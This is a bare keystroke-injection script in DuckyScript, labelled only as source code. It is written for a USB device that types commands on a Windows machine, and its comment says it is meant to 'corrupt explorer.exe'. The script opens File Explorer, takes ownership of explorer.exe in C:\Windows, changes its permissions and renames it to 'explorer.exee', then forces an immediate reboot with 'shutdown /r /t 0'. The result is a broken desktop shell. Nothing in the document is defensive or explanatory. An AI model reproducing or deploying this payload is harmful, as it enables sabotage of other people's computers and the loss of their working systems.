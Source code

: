 DELAY 8000
REM corrupt explorer.exe
GUI e
DELAY 800
ALT v
DELAY 600
ALT hf
DELAY 800
ALT d
DELAY 700
STRING C:\Windows
DELAY 600
ENTER
DELAY 600
STRING e
DELAY 600
STRING e
DELAY 600
ALT ENTER
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
RIGHTARROW
DELAY 500
RIGHTARROW
DELAY 600
ALT v
DELAY 800
ALT c
DELAY 800
ALT f
DELAY 700
CONTROL C
DELAY 700
ALT e
DELAY 650
CONTROL V
DELAY 500
STRING \Users
DELAY 600
ENTER
DELAY 600
ALT A
DELAY 900
ENTER
DELAY 800
ENTER
DELAY 600
TAB
DELAY 500
ENTER
DELAY 700
ALT ENTER
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
TAB
DELAY 600
RIGHTARROW
DELAY 600
RIGHTARROW
DELAY 600
ALT E
DELAY 600
DOWNARROW
DELAY 600
DOWNARROW
DELAY 600
DOWNARROW
DELAY 600
DOWNARROW
DELAY 500
TAB
DELAY 500
TAB
DELAY 500
TAB
DELAY 700
SPACE
DELAY 500
ENTER
DELAY 800
ALT Y
DELAY 600
ENTER
DELAY 600
TAB
DELAY 500
ENTER
DELAY 700
ALT ENTER
DELAY 850
TAB
DELAY 500
TAB
DELAY 500
TAB
DELAY 600
TAB
DELAY 600
TAB
DELAY 800
TAB
DELAY 600
STRING explorer.exee
DELAY 950
ENTER
DELAY 600
ENTER
DELAY 600
ENTER
DELAY 900
LEFTARROW
DELAY 600
ENTER
DELAY 800
GUI r
DELAY 550
STRING cmd
DELAY 600
ENTER
DELAY 800
STRING shutdown /r /t 0
DELAY 700
ENTER



	